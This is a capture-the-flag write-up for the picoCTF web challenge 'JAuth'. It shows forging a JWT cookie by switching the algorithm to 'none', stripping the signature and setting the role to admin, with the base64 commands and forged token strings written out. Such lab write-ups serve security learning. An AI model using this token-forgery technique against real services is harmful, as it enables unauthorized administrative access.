 # Challange Info

Name : JAuth

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/236?category=1&page=1

# Writeup

Logging in using provided credentials in the webapp.

There is a cookie named token which is a JWT.

Decoding the JWT and changing the algorithm from HS256 to none.

```bash
echo -n '{"typ":"JWT","alg":"none"}' | base64
```

> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=

Remove the = and remove the signature without fullstop at last. 

Edit the cookie with cookie editor.

Extension Link : https://chromewebstore.google.com/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm

The webpage allows none algorithm now in payload change the role to admin.

```bash
echo -n '{"auth":1736323979030,"agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36","role":"admin","iat":1736323979}' | base64
```

> eyJhdXRoIjoxNzM2MzIzOTc5MDMwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMS4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM2MzIzOTc5fQ==

Remove = and edit the payload in cookie and I got access to admin page which contains the flag. 
